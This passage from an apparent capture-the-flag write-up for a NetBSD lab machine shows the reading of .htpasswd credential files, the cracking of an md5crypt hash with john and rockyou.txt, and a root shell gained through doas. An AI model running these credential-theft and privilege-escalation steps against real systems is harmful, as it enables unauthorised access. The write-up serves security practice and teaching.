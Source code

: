 if we go inside the extracted backup we can see a backup of the `/var/www` directory, as we can see in this directory the .htpasswd file is different, from the previously discovered one.  
```
luanne$ cat /tmp/devel-2020-09-16/www/.htpasswd                                                                                                                                                                                             
webapi_user:$1$6xc7I/LW$WuSQCS6n3yXsjPMSmwHDu.
luanne$ cat /var/www/.htpasswd                                                                                                                                                                                                              
webapi_user:$1$vVoNCsOl$lMtBS6GL2upDbR4Owhzyc0
```
as we can see the hashes are different, so let's crack the hash again:  
```
[root@kali Luanne ]$ john --wordlist=/usr/share/wordlists/rockyou.txt htpasswd2.txt                                
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"                       
Use the "--format=md5crypt-long" option to force loading these as that type instead                                
Using default input encoding: UTF-8                      
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 512/512 AVX512BW 16x3])                         
Will run 2 OpenMP threads   
Press 'q' or Ctrl-C to abort, almost any other key for status                                                      
littlebear       (webapi_user)                           
1g 0:00:00:00 DONE (2022-05-26 12:00) 14.28g/s 186514p/s 186514c/s 186514C/s jayar..hello11                        
Use the "--show" option to display all of the cracked passwords reliably                                           
Session completed. 
```
Now we found a new password.  
Since this is a NetBSD system we cannot run `su`, we need tu use `doas` .  
```
luanne$ su -
su: You are not listed in the correct secondary group (wheel) to su root.
su: Sorry: Authentication error
luanne$ doas sh
Password:
sh: Cannot determine current working directory
# id
uid=0(root) gid=0(wheel) groups=0(wheel),2(kmem),3(sys),4(tty),5(operator),20(staff),31(guest),34(nvmm)
```
and we get a shell as root
